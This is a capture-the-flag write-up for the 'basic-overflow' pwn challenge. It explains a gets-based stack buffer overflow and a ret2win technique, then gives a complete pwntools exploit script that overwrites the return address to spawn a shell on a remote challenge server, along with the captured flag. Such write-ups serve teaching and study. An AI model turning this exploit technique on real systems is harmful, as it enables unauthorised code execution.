


# basic-overflow

## Description

This challenge is simple.

It just gets input, stores it to a buffer.

It calls gets to read input, stores the read bytes to a buffer, then exits.

What is gets, you ask? Well, it's time you read the manual, no?

man 3 gets

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.

Author: drec

nc 34.123.15.202 5000

[basic-overflow](/basic-overflow/basic-overflow)

## Approach

Like every pwn challenge ever, i first start with `checksec`.

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   26 Symbols        No    0               1               basic-overflow
```
So here's the summary of the analysis from `checksec`.

- Partial RELRO, so it means that the GOT entry is writable.
- No canary found, so it means that there's no checks if the stack is overflown.
- NX enabled, so it means that we can't execute codes on the stack.
- No PIE, so it means that the base address of the binary is not randomized, makes it easier to call functions later.

So we start taking a look at the decompiled code.



So it takes user input using gets. Making buffer overflow possible.

Looking at another function called `shell`



In this function, it called `execve("/bin/sh", 0, 0)`, basically calling a shell. So we must call that function to pop a shell.

This is a typical ret2win challenge, so we basically have to overwrite RIP to a win function, in this chall, it's `shell`.

Using pwndbg, i found that the offset to RIP is 72. And then we write the address of `shell` to RIP.

## Exploit
```
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './basic-overflow'
elf = context.binary = ELF(exe, checksec=False)
libc = '/usr/lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '34.123.15.202', 5000

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()

    offset = 72
    payload = flat({
        offset: [
            elf.symbols['shell']
        ]
    })

    io.sendline(payload)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
uoftctf{reading_manuals_is_very_fun}
```